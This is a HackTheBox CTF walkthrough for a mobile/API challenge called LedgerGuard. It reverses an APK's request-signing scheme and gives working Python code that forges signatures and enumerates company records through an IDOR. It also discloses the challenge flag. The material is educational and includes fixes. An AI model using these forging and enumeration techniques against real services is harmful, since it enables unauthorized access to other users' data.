

# HackTheBox CTF — LedgerGuard Walkthrough

**Category:** Mobile / API<br>
**Difficulty:** Medium<br>
**Flag:** `HTB{dynamic_s1gn4ture_ch3ck_byp4ss}`

By: xG//05t

---

## Scenario

> In the midst of Operation Blackout, a new financial management app has surfaced, rumored to be used by high-profile organizations for secure transactions. Our intelligence suggests that LedgerGuard, developed by a shadowy group, may contain hidden weaknesses. Your mission is to infiltrate the app, analyze its security mechanisms, and uncover any secrets that could compromise its users.

HackTheBox spins up a dedicated server instance for this challenge. When you start the instance, you're given an IP and port — in this case `154.57.164.82:31623`.

---

## Step 0: Obtaining the APK

Navigating to `http://154.57.164.82:31623` in a browser presents the **LedgerGuard APK Compiler** — a web UI that compiles and serves a custom APK pre-configured to talk to your specific server instance.



The page shows a "Target Server URL" field already populated with your instance URL (`http://154.57.164.82:31623`), and a single **"Compile & Download APK for This Server"** button. Clicking it delivers a freshly compiled APK with the backend URL baked in:

```
LedgerGuard-154.57.164.82-31623-1773597439112.apk
```

The filename encodes the server address and a timestamp. This per-instance compilation is worth noting: the APK is dynamically built so the hardcoded `BASE_URL` matches your challenge server, which will matter later when we reverse the signing algorithm.

---

## Step 1: Initial Reconnaissance

### Unpacking the APK

An APK is just a ZIP archive. The first step is to unpack it and survey the contents:

```bash
unzip LedgerGuard.apk -d ledger_extracted/
ls ledger_extracted/
```

```
AndroidManifest.xml  classes.dex  classes2.dex  classes3.dex
classes4.dex         classes5.dex classes6.dex  classes7.dex
res/                 resources.arsc  META-INF/
```

Android apps compile all Java/Kotlin source code into `.dex` (Dalvik Executable) files. There are 7 here — typical for an app with multiple dependencies.

### Quick String Scan

Before doing any deep analysis, run `strings` across all DEX files to find anything interesting:

```bash
for f in ledger_extracted/classes*.dex; do
    strings "$f" | grep -iE "HTB|flag|secret|encrypt|key|token" \
        | grep -v "res/\|android\|kotlin\|google\|androidx"
done
```

From `classes3.dex` and `classes4.dex` we get a clear picture of the app's own package structure:

```
com.htb.ledgerguard.LoginActivity
com.htb.ledgerguard.DashboardActivity
com.htb.ledgerguard.CompaniesActivity
com.htb.ledgerguard.ProfileActivity
com.htb.ledgerguard.api.ApiClient
com.htb.ledgerguard.api.ApiClient$SignatureInterceptor
com.htb.ledgerguard.models.AuthResponse
```

Key strings from `classes4.dex`:

```
http://154.57.164.82:31623/api/
auth/guest
auth/login
auth/refresh
companies
companies/{companyId}
users/me
users/{userId}
x-signature
x-device-id
x-device-model
x-timestamp
x-refresh-token
SHA-256
Signature base:
Generated signature:
initialKey
currentKey
refreshToken
```

This tells us almost everything we need:
- The live API base URL
- All known endpoints
- The app uses a custom request-signing scheme with SHA-256
- Signed requests include a timestamp, device identifiers, and a rotating key

---

## Step 2: Probing the Live API

Before reverse-engineering the signature, it's worth checking what endpoints exist and what they return without authentication:

```bash
curl http://154.57.164.82:31623/api/auth/guest -X POST
```

```json
{
  "success": true,
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "refreshToken": "4c408df0-848b-4592-b8a7-017c6c18886c",
  "userId": "user-003",
  "initialKey": "4c408df0-848b-4592-b8a7-017c6c18886c",
  "message": "Guest login successful"
}
```

The guest login endpoint requires no credentials. It returns:

| Field | Value | Purpose |
|---|---|---|
| `token` | JWT (HS256) | Bearer token for `Authorization` header |
| `refreshToken` | UUID | Used to refresh the signing key |
| `userId` | `user-003` | Our user ID |
| `initialKey` | UUID (= refreshToken) | Seed for the request-signing mechanism |

Decoding the JWT payload reveals:

```json
{
  "userId": "user-003",
  "role": "guest",
  "iat": 1773597977,
  "exp": 1773684377
}
```

Role is `guest`. Now, when we try an authenticated endpoint without a valid signature:

```bash
curl http://154.57.164.82:31623/api/users/me \
  -H "Authorization: Bearer <token>"
```

```json
{"success": false, "message": "Unauthorized: No signature provided"}
```

The server requires a custom `x-signature` header. We must reverse the signing algorithm.

---

## Step 3: Reversing the Signature Algorithm

### Using Androguard

[Androguard](https://github.com/androguard/androguard) is a Python library for analyzing Android binaries. We use it to disassemble the Dalvik bytecode of `classes4.dex`, which contains the `ApiClient` class:

```python
from androguard.core.dex import DEX

with open('ledger_extracted/classes4.dex', 'rb') as f:
    d = DEX(f.read())

for cls in d.get_classes():
    if 'ApiClient' in cls.get_name():
        for m in cls.get_methods():
            if 'generateSignature' in m.get_name() or 'intercept' in m.get_name():
                for ins in m.get_code().get_bc().get_instructions():
                    print(ins.get_name(), ins.get_output())
```

### The `intercept` Method

The `SignatureInterceptor.intercept()` method runs before every API call. Its Dalvik bytecode, translated to pseudocode:

```java
String fullUrl   = request.url().toString();
String endpoint  = fullUrl.replace("http://154.57.164.82:31623/api/", "/");
String deviceId  = Settings.Secure.getString(resolver, "android_id");
String model     = android.os.Build.MODEL;
String timestamp = String.valueOf(System.currentTimeMillis());

String sig = ApiClient.generateSignature(endpoint, deviceId, model, timestamp);

request.newBuilder()
    .header("x-signature",    sig)
    .header("x-device-id",    deviceId)
    .header("x-device-model", model)
    .header("x-timestamp",    timestamp)
    .build();
```

The endpoint is derived by stripping the base URL from the full URL and replacing it with `/`. So `http://154.57.164.82:31623/api/users/me` becomes `/users/me`.

### The `generateSignature` Method

Reading the Dalvik register assignments in the static `generateSignature(String, String, String, String)` method:

- `p0` → `endpoint`
- `p1` → `deviceId`
- `p2` → `deviceModel`
- `p3` → `timestamp`

The `StringBuilder` construction (tracing register appends in order):

```
append(currentKey)    // static field ApiClient.currentKey
append(":")
append(deviceId)      // p1 — v12 in the frame
append(":")
append(deviceModel)   // p2 — v13
append(":")
append(endpoint)      // p0 — v11
append(":")
append(timestamp)     // p3 — v14
```

> **Critical detail:** The ordering is NOT `endpoint` first. `deviceId` and `deviceModel` come before `endpoint`. This caused the first attempt (wrong order) to return `Invalid signature`. Precise bytecode reading was required to get it right.

The resulting signature base string is then SHA-256 hashed and hex-encoded:

```
signatureBase = currentKey:deviceId:deviceModel:endpoint:timestamp
x-signature   = hex( SHA-256(signatureBase) )
```

Where `currentKey` starts as the `initialKey` returned at login.

---

## Step 4: Implementing the Attack

### Python API Client

```python
import hashlib
import time
import requests

BASE_URL     = "http://154.57.164.82:31623/api"
DEVICE_ID    = "abc123deviceid"   # arbitrary — sent in header, server mirrors it back
DEVICE_MODEL = "Pixel5"           # arbitrary

def auth_guest():
    r = requests.post(f"{BASE_URL}/auth/guest")
    data = r.json()
    return data['token'], data['initialKey']

def sign(endpoint, device_id, device_model, timestamp_ms, current_key):
    base = f"{current_key}:{device_id}:{device_model}:{endpoint}:{timestamp_ms}"
    return hashlib.sha256(base.encode()).hexdigest()

def api_get(path, token, key):
    ts       = str(int(time.time() * 1000))
    full_url = f"{BASE_URL}/{path}"
    endpoint = full_url.replace(f"{BASE_URL}/", "/")
    sig      = sign(endpoint, DEVICE_ID, DEVICE_MODEL, ts, key)
    headers  = {
        "Authorization":  f"Bearer {token}",
        "x-signature":    sig,
        "x-device-id":    DEVICE_ID,
        "x-device-model": DEVICE_MODEL,
        "x-timestamp":    ts,
    }
    return requests.get(full_url, headers=headers)

token, key = auth_guest()
print(api_get("users/me", token, key).json())
```

### Why the Signature Can Be Forged

The server validates the signature using the same formula. To do so, it reads `x-device-id`, `x-device-model`, and `x-timestamp` directly from the incoming request headers. This means:

- The attacker supplies all inputs to the hash function
- There is no HMAC secret that only the server knows — `currentKey` is returned to the client at login
- The scheme is essentially: "Hash some values we gave you back to us." Any attacker who reverses the formula can forge valid signatures indefinitely

A secure implementation would use HMAC with a server-side secret that is never transmitted to the client, or mutual TLS, so that only legitimate app instances can produce valid signatures.

---

## Step 5: Exploiting IDOR on the Companies API

With a working signed client, we enumerate every available resource.

### `/api/users/me`

```json
{
  "id": "user-003",
  "email": "guest@financeflow.com",
  "name": "Guest User",
  "role": "guest"
}
```

### `/api/users/user-001` — IDOR

The server makes no role check when fetching users by ID:

```json
{
  "id": "user-001",
  "email": "admin@financeflow.com",
  "name": "Admin User",
  "title": "Administrator"
}
```

A guest account can read admin profile data.

### `/api/companies/{id}` — Brute-forcing IDs

```python
for cid in range(1, 20):
    r = api_get(f"companies/{cid}", token, key)
    if r.status_code == 200:
        data = r.json()
        print(f"[{cid}] {data['name']} — owner: {data['owner']}")
```

Output:

```
[1] TechInnovate Solutions  — owner: John Anderson
[2] GreenEarth Renewables   — owner: Sarah Johnson
[3] MediCare Plus           — owner: Robert Williams
[4] FinTrack Analytics      — owner: Amanda Brown
[5] SecureNet Systems       — owner: Michael Chen
[6] CloudScale Services     — owner: Jessica Miller
[7] DataVision Analytics    — owner: David Thompson
[8] SmartRetail Solutions   — owner: Lisa Garcia
[9] EduTech Innovations     — owner: HTB{dynamic_s1gn4ture_ch3ck_byp4ss}
```

The flag is hidden in the `owner` field of company #9.

---

## Flag

```
HTB{dynamic_s1gn4ture_ch3ck_byp4ss}
```

---

## Vulnerability Summary

This challenge demonstrates a chain of two vulnerabilities:

### 1. Bypassable Request Signing (Broken API Authentication)

The signature scheme looks sophisticated — SHA-256, rotating keys, millisecond timestamps. But the security model collapses because the `currentKey` is transmitted to the client at login, and all other hash inputs are also client-supplied and echoed back in headers. The server is asking the client to prove it can compute a hash of values the server itself provided. After a single reverse-engineering session, an attacker can forge valid signatures for any endpoint forever.

**Fix:** Use HMAC with a server-side secret that is never sent to the client, or implement certificate pinning + mutual TLS so that the app binary itself is the unforgeable credential.

### 2. Insecure Direct Object Reference (IDOR)

The `/api/companies/{id}` and `/api/users/{userId}` endpoints perform no authorization check. A `guest` account can retrieve records for any company or user by changing the numeric/string ID in the URL. Sensitive values — including the flag hidden in an `owner` field — are returned without restriction.

**Fix:** Enforce server-side access control: verify that the requesting user's role permits access to the requested resource before returning data.

---

## Tools Used

| Tool | Purpose |
|---|---|
| `unzip` | Unpack the APK archive |
| `strings` | Quick scan for hardcoded values and endpoint names |
| [Androguard](https://github.com/androguard/androguard) | Dalvik bytecode disassembly to reverse the signing algorithm |
| `curl` | Initial API probing |
| Python (`requests` + `hashlib`) | Forge signed API requests and enumerate endpoints |

---

*Written for HackTheBox CTF — LedgerGuard challenge.*
